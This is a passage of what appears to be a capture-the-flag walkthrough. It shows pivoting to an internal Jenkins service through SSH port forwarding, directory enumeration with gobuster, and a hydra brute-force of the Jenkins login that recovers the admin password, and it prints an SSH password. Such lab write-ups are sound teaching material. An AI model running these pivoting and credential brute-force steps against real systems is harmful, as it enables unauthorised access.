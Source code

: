   ```
  ```
- **Key Insight**: A Jenkins service is running internally on `172.17.0.2:8080`, likely in a Docker container (based on `docker0` IP `172.17.0.1`) [].

### 7. Pivot to Jenkins via SSH Tunneling
- Checked network services:
  ```bash
  netstat -ano | less
  ```
- Relevant output:
  ```
  tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN off (0.00/0/0)
  ```
- **Observation**: Port 8080 is bound to `127.0.0.1`, but `jenkins.txt` indicates Jenkins is on `172.17.0.2:8080`, requiring network pivoting [].
- Set up SSH tunneling to forward `172.17.0.2:8080` to `localhost:8090`:
  ```bash
  ssh -L 8090:172.17.0.2:8080 aubreanna@10.10.21.216
  ```
- Password: `bubb13guM!@#123`
- On the attacking machine, visited `http://localhost:8090` in Firefox—found a Jenkins login page [].

### 8. Enumerate Jenkins
- Ran `gobuster` on the Jenkins instance:
  ```bash
  gobuster dir -u http://localhost:8090 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -b 403,404 --exclude-length 865
  ```
- Results:
  ```
  /login (Status: 200)
  /assets (Status: 302)
  /logout (Status: 302)
  /error (Status: 400)
  /git (Status: 302)
  /oops (Status: 200)
  /cli (Status: 302)
  ```
- **Analysis**: `/login` is the Jenkins login page. Other endpoints are standard Jenkins paths, but nothing immediately exploitable [].

### 9. Brute-Force Jenkins Credentials
- Tested default credentials and brute-forced the login form:
  ```bash
  hydra 127.0.0.1 -s 8090 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
  ```
- Results:
  ```
  [8090][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
  ```
- **Credentials**: `admin:spongebob` [].
- Logged into `http://localhost:8090` with `admin:spongebob`.
